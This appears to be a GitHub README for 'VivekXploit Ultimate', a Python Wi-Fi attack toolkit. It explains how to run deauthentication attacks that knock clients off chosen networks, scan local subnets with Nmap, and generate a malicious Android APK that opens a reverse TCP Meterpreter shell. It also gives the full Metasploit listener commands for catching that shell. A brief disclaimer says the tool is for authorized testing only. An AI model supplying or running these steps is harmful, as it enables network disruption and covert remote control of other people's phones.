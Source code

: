 # VivekXploit_Ultimate_WiFi_Attack_Toolkit
<b>VivekXploit Ultimate is an advanced Python-based Wi-Fi attack toolkit for ethical hackers. It features deauthentication attacks, Nmap network scanning, and Android reverse shell payload generation via Metasploit. Designed for penetration testing with external Wi-Fi adapters in Kali Linux.</b>

# VivekXploit - ULTIMATE Wi-Fi Attack Toolkit

```
__     ___           _    __  __      _       _ _    
 \ \   / (_)_   _____| | __\ \/ /_ __ | | ___ (_) |_  
  \ \ / /| \ \ / / _ \ |/ / \  /| '_ \| |/ _ \| | __|
   \ V / | |\ V /  __/   <  /  \| |_) | | (_) | | |_  
    \_/  |_| \_/ \___|_|\_\/_/\_\ .__/|_|\___/|_|\__|
                                |_|                  
             V i v e k X p l o i t - ULTIMATE
```

## 🔥 Overview

VivekXploit Ultimate is an advanced Python-based Wi-Fi attack toolkit designed for **authorized penetration testing and educational use**. It combines:

* ✅ **Deauthentication (DoS) attacks** on Wi-Fi networks
* ✅ **Nmap scanning** of local networks
* ✅ **Android payload creation** using Metasploit (`msfvenom`)

Created by: **Vivek Dhobale**

## 🚀 Features

| Feature                  | Description                                              |
| ------------------------ | -------------------------------------------------------- |
| 🔺 Deauth Attack         | Scan and disconnect clients from selected Wi-Fi networks |
| 🌐 Nmap Scanner          | Discover all live devices in your local subnet           |
| 📱 Payload Generator     | Create a malicious APK for Android reverse TCP shell     |
| 🔌 Wi-Fi Adapter Support | Works with external adapters in monitor mode             |
| 📂 Log Handling          | CSV files automatically moved to backup folder           |

## ⚙️ Requirements

* OS: **Kali Linux or Parrot OS**
* Python 3.6+
* Root privileges (`sudo`)
* External Wi-Fi adapter (e.g. Alfa AWUS036NHA)
* Tools installed:

  * `airmon-ng`, `airodump-ng`, `aireplay-ng`
  * `nmap`, `msfvenom`

Install Python requirements:

```bash
pip install -r requirements.txt
```

## 📥 Setup & Run

```bash
sudo python3 Vivekxploit_Ultimate_Cracker.py
```

## 🧪 Usage Instructions

### 🔹 Deauthentication Attack

1. Script detects your Wi-Fi adapters
2. Choose interface (e.g., wlan0)
3. Select target from scanned networks
4. Script sends continuous deauth packets

> Press `CTRL+C` to stop attack

---

### 🔹 Nmap Scan (Internal LAN)

* After deauth, select `1` to run network scan:

```
Do you want to run extra tools? (1) Nmap Scan (2) Generate Payload (3) Exit:
```

* Lists live hosts on your network (like 192.168.0.1–255)

---

### 🔹 Metasploit Payload Generator

* Select option `2`
* Enter your **LHOST (your IP)** and **LPORT (e.g., 4444)**
* Output: `vivek_payload.apk`
* Use with Metasploit listener:

```bash
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT <your_port>
exploit
```

---

## 📡 Wi-Fi Adapter

To run monitor mode attacks, you **must use** a compatible external USB Wi-Fi adapter that supports injection (e.g., Alfa AWUS036NHA, TP-Link TL-WN722N v1).

## ⚠️ Legal Disclaimer

> This tool is for **educational and authorized penetration testing only**.
> Do not use it on networks you do not own or have permission to test.

Misuse of this tool can be illegal. The developer is not responsible for any damage caused.

## 👨‍💻 Author

* **Vivek Dhobale**
* GitHub: [github.com/VivekDhobale-VivekXploit](https://github.com/VivekDhobale-VivekXploit)
* LinkedIn: [linkedin.com/in/vivek-dhobale-vr](https://www.linkedin.com/in/vivek-dhobale-vr)

---

Made with ❤️ for ethical hackers and learners.

---

**⭐ If this project was helpful, please consider to leaving a **star** to support it!**